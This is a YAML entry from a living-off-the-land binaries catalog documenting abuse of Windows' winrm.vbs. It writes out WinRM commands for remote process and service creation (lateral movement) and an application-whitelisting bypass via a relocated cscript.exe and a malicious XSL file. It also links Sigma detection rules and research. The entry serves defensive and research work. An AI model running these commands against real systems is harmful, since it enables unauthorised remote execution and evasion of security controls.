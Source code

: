 ```yaml
---
Name: winrm.vbs
Description: Script used for manage Windows RM settings
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: 'winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: CMD
      - Execute: Remote
  - Command: 'winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985 && winrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985'
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol
    Usecase: Proxy execution
    Category: Execute
    Privileges: Admin
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: CMD
      - Execute: Remote
  - Command: '%SystemDrive%\BypassDir\cscript //nologo %windir%\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty'
    Description: Bypass AWL solutions by copying cscript.exe to an attacker-controlled location; creating a malicious WsmPty.xsl in the same location, and executing winrm.vbs via the relocated cscript.exe.
    Usecase: Execute arbitrary, unsigned code via XSL script
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: XSL
Full_Path:
  - Path: C:\Windows\System32\winrm.vbs
  - Path: C:\Windows\SysWOW64\winrm.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr.reg
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Slmgr_calc.sct
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_winrm_awl_bypass.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_winrm_execution_via_scripting_api_winrm_vbs.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/file/file_event/file_event_win_winrm_awl_bypass.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Resources:
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://www.youtube.com/watch?v=3gz1QmiMhss
  - Link: https://github.com/enigma0x3/windows-operating-system-archaeology
  - Link: https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - Link: https://twitter.com/bohops/status/994405551751815170
  - Link: https://posts.specterops.io/application-whitelisting-bypass-and-arbitrary-unsigned-code-execution-technique-in-winrm-vbs-c8c24fb40404
  - Link: https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Matt Nelson
    Handle: '@enigma0x3'
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Red Canary Company cc Tony Lambert
    Handle: '@redcanaryco'
---
```

